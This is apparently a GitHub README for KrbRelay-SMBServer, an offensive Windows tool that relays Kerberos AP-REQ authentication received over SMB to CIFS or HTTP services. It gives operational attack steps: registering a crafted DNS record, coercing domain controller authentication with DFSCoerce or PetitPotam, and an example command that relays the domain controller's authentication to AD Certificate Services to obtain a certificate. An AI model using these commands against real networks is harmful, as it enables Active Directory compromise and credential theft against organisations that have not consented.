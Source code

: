 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server_name you want to relay the kerberos AP-REQ as: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA*  and mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine -> you can use the smb_control.bat to perform these tasks.
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
#In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listenerport: relay listener port
-redirecthost: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
-relayeduser, -relayeduserdomain : specify user/machine and domain, useful in certain cases (don't know exactly why) when certificate creation fails because of empty CN


For detailed usage and command line switches refer to original krbrelay tool
````
<img width="952" alt="Screenshot 2024-10-07 143939" src="https://github.com/user-attachments/assets/cc4d9796-6a26-4d99-9f5e-85de5ffe872d">

<img width="848" alt="Screenshot 2024-10-07 113416" src="https://github.com/user-attachments/assets/5a91b65b-6f87-4f4f-935d-8283f587cd81">

<img width="908" alt="Screenshot 2024-10-07 113227" src="https://github.com/user-attachments/assets/4b3a0be1-7fa7-4de6-aa5a-d645151483af">
